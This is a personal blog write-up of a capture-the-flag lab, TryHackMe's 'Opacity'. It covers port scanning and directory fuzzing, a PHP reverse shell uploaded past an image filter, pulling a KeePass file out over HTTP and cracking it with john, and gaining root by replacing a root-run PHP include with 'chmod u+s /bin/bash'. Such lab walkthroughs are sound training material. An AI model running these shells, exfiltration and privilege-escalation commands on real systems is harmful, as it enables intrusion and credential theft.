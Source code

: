 ```yaml
---
layout: post
author: L0
---
```


# THM-Opacity

![image](/images/Pasted image 20230822084619.png)

[TryHackMe - Opacity](https://tryhackme.com/room/opacity)
## Enumeration
### nmap
```shell
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

the nmap scan revealed 4 open ports.

- Port 22 - ssh service
- Port 80 - apache web server
- Port 139 & 445 smb service
### enum4linux
first i started enumerating the smb service with *enum4linux*

```shell
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\sysadmin (Local User)

```

i just got the username *sysadmin*.
### website on port 80
the web server is hosting a login page. common credentials are not working.

![image](/images/Pasted image 20230508223038.png)
### directory fuzzing
directory fuzzing got me a hit with a path to the *cloud* resource.

```shell
$ ffuf -w `fzf-wordlist` -u http://opacity.thm/FUZZ -e ".php"
...
css                     [Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 45ms]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 41ms]
login.php               [Status: 200, Size: 848, Words: 115, Lines: 35, Duration: 57ms]
index.php               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 38ms]
server-status           [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 38ms]
.php                    [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 39ms]
                        [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 39ms]
cloud                   [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 37ms]

```
### php-reverse-shell
with this form a user is able to upload images. since the webserver is an apache instance, i tried to upload a *php-reverse-shell* script. i needed to bypass the filtering. the form only accepts files with ".jpg" extension.

![image](/images/Pasted image 20230821123911.png)

but after some try and error i got a reverse shell. of course i started a listener with `nc -lvnp 4444` to catch the shell.

![image](/images/Pasted image 20230821125815.png)

```shell
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.11.1.199] from (UNKNOWN) [10.10.155.163] 49288
Linux opacity 5.4.0-139-generic #156-Ubuntu SMP Fri Jan 20 17:27:18 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 10:57:30 up 27 min,  0 users,  load average: 0.00, 0.00, 0.13
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$

```
### keepass database file
i looked in the home directory and other places for interesting information and found a keepass database file in the */opt* directory.

```shell
www-data@opacity:/opt$ ls
dataset.kdbx
```

i downloaded the file to my machine.

>start server with `python3 -m http.server 9090`
>and download on attacker with `wget http://<victim-ip>:9000/file`
{: .prompt-info}

i used *keepass2john* to create a hash for *john* to work with. after that i used *john* and the *rockyou* password list to get the password.

```shell
$ keepass2john ./dataset.kdbx > dataset.hash
$ john --wordlist=/usr/share/wordlists/rockyou.txt dataset.hash
```

```shell
dataset:741852963
```

then i used the password with the *keepassxc-cli show -s* command to get the stored password of *sysadmin*

```shell
$ keepassxc-cli show -s ./dataset.kdbx user:password 
Enter password to unlock ./dataset.kdbx: 
Title: user:password
UserName: sysadmin
Password: Cl0udP4ss40p4city#8700
URL: 
Notes: 
Uuid: {c116cbb5-f7c3-9a74-04c2-75019b28cc51}
Tags: 
```

with that password i was able to log into the *sysadmin* account via ssh. and got the first flag.

```shell
Last login: Wed Feb 22 08:13:43 2023 from 10.0.2.15
sysadmin@opacity:~$ ls
local.txt  scripts
sysadmin@opacity:~$ cat local.txt
66****************************e2
```
## Privilege Escalation
the first thing that got my attention was the *scripts* directory in the *home* directory of *sysadmin*.
the file *scripts.php* inside that folder was owned by root. i checked for cronjobs but could not find any. but when i monitored the processes with *pspy* i saw that this script got executed very regular by the root user.

```php
<?php
//Backup of scripts sysadmin folder
require_once('lib/backup.inc.php');
zipData('/home/sysadmin/scripts', '/var/backups/backup.zip');
echo 'Successful', PHP_EOL;

//Files scheduled removal
$dir = "/var/www/html/cloud/images";
if(file_exists($dir)){
    $di = new RecursiveDirectoryIterator($dir, FilesystemIterator::SKIP_DOTS);
    $ri = new RecursiveIteratorIterator($di, RecursiveIteratorIterator::CHILD_FIRST);
    foreach ( $ri as $file ) {
        $file->isDir() ?  rmdir($file) : unlink($file);
    }
}
?>

```

the script imports another php file from the *lib* directory. when i checked this folder and the permissions i saw, that i owned that folder. so i was able to rename the imported file and create another with the same name instead.

```shell
sysadmin@opacity:~/scripts/lib$ ll
total 136
drwxr-xr-x 2 sysadmin root      4096 Aug 21 21:25 ./
rwxr-xr-x 3 root     root      4096 Jul  8  2022 ../
-rw-r--r-- 1 root     root      9458 Jul 26  2022 application.php
-rw-rw-r-- 1 root     root      4182 Jul 26  2022 backup.inc.php
-rw-r--r-- 1 root     root     24514 Jul 26  2022 bio2rdfapi.php
-rw-r--r-- 1 root     root     11222 Jul 26  2022 biopax2bio2rdf.php
-rw-r--r-- 1 root     root      7595 Jul 26  2022 dataresource.php
-rw-r--r-- 1 root     root      4828 Jul 26  2022 dataset.php
-rw-r--r-- 1 root     root      3243 Jul 26  2022 fileapi.php
-rw-r--r-- 1 root     root      1325 Jul 26  2022 owlapi.php
-rw-r--r-- 1 root     root      1465 Jul 26  2022 phplib.php
-rw-r--r-- 1 root     root     10548 Jul 26  2022 rdfapi.php
-rw-r--r-- 1 root     root     16469 Jul 26  2022 registry.php
-rw-r--r-- 1 root     root      6862 Jul 26  2022 utils.php
-rwxr-xr-x 1 root     root      3921 Jul 26  2022 xmlapi.php*
```

and this is the contend of the new file. i execute a OS command that sets the SUID bit for the bash binary

```php
sysadmin@opacity:~/scripts/lib$ cat backup.inc.php
<?php
$cmd = shell_exec('chmod u+s /bin/bash');
?>
```

the script got called by root and i checked the permissions. the SUID bit was set and i got a root shell with `/bin/bash -p` 

```shell
sysadmin@opacity:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
sysadmin@opacity:~$ /bin/bash -p
bash-5.0# whoami
root
bash-5.0# cd /root
bash-5.0# cat proof.txt
ac***************************20e
```

and i got the last flag.

[L0]
